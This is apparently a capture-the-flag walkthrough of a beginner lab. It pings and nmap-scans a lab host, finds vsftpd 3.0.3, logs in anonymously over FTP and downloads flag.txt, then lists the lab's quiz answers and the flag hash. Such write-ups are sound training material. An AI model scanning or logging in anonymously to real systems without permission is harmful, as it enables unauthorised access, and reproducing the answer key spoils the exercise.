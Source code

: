Ping host to check if reachable: `ping 10.129.61.254`

Run nmap to detect ports: `sudo nmap 10.129.61.254`

Run nmap with version info: `sudo nmap -sV 10.129.61.254`

```
PORT   		STATE 	SERVICE 	VERSION
21/tcp 		open  	ftp     vsftpd 3.0.3
Service Info: OS: Unix
```

Logging into the FTP with anonymus account, password can be anything since it will be disregarded: 
`ftp 10.129.61.254`
``` 
Connected to 10.129.61.254.
220 (vsFTPd 3.0.3)
Name (10.129.61.254:sebastiaan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
```

Checked the content of the folder, found the flag.txt file

```
ftp> ls
229 Entering Extended Passive Mode (|||34390|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

Download the flag file to local machine

```
ftp> get flag.txt
local: flag.txt remote: flag.txt
226 Transfer complete.
32 bytes received in 00:00 (0.87 KiB/s)
ftp> bye
221 Goodbye.
```

Opening flag file 
```
cat flag.txt
035db21c881520061c53e0536e44f815 
```


What does the 3-letter acronym FTP stand for? 
- File Transfer protocol

Which port does the FTP service listen on usually? 
- 21

FTP sends data in the clear, without any encryption. What acronym is used for a later protocol designed to provide similar functionality to FTP but securely, as an extension of the SSH protocol? 
- SFTP

What is the command we can use to send an ICMP echo request to test our connection to the target? 
- Ping

From your scans, what version is FTP running on the target? 
- vsftpd 3.0.3 

From your scans, what OS type is running on the target?
- Unix

What is the command we need to run in order to display the 'ftp' client help menu? 
- ftp -?

What is username that is used over FTP when you want to log in without having an accou
- anonymus

What is the response code we get for the FTP message 'Login successful'? 
- 230

There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system. 
- ls

What is the command used to download the file we found on the FTP server? 
- get

Root flag 
- 035db21c881520061c53e0536e44f815 
